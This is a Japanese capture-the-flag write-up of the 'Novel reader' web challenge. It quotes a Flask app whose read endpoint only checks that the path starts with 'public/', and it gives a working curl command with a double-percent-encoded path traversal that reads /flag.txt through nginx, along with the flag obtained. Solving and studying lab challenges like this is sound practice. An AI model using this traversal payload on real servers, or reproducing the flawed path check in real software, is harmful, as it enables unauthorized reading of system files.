

# Novel reader:Web:42pts
We have many fun novels for ya...  
[Docker environment](novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)  
```
http://3.64.250.135:9000
```

# Solution
URLとソースが配布される。  
アクセスすると`Balance`を払って`Words Balance`を購入して、Novelを読むことのできるサービスのようだ。  
  
試しに`Balance: 100`すべて払うと`Words Balance: 11`となり、10:1のレートのようだ。  
ソースを見ると以下であった。  
```python
from flask import *
from urllib.parse import unquote
import os

def readFile(path):
    f = open(path,'r')
    buf = f.read(0x1000)
    f.close()
    return buf

app = Flask(__name__,static_folder='./static')
app.secret_key = 'REDACTED'
indexFile = readFile('index.html')

@app.before_request
def init_session():
    if('credit' not in session):
        session['credit'] = 100
        session['words_balance'] = 1

@app.get('/')
def index():
    return indexFile

@app.get('/api/stats')
def getStats():
    return {'credit': session['credit'], 'words_balance': session['words_balance']}

@app.post('/api/charge')
def buyWord():
    nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
            return {'success': True, 'msg': 'Added to your account!'}
        return {'success': False, 'msg': 'Not enough credit.'}, 402
    else:
        return {'success': False, 'msg': 'Missing parameteres.'}, 400

@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}

@app.get('/api/list-public-novels')
def listPublicNovels():
    return os.listdir('./public/')

@app.get('/api/list-private-novels')
def listPrivateNovels():
    return os.listdir('./private/')

if(__name__ == '__main__'):
    app.run('0.0.0.0',port=8000)
```
Dockerfileは以下のようでnginxが噛んでいる。  
```Dockerfile
FROM tiangolo/uwsgi-nginx-flask:python3.11

COPY ./flag.txt /flag.txt
COPY ./stuff /app
```
`/flag.txt`にフラグがあるようだ。  
ファイル読み込み箇所を再度注意して見ると以下であった。  
```python
~~~
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
~~~
```
`unquote`でパーセントエンコーディングを戻して、`public/`から始まっているか確認している。  
`public/`から始まるようにトラバーサルしてやればよい。  
`flag.txt`にはスペースが含まれていないので、`Words Balance`は意識しなくてよい。  
nginxが噛んでいるので、二重でパーセントエンコーディングが必要となる。  
```bash
$ curl -H 'Cookie: session=eyJjcmVkaXQiOjAsIndvcmRzX2JhbGFuY2UiOjExfQ.Za0PlQ._41fKxqQM14l0Afp4vvm1y5-bz4' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag.txt'
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```
flagが書かれていた。  

## MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}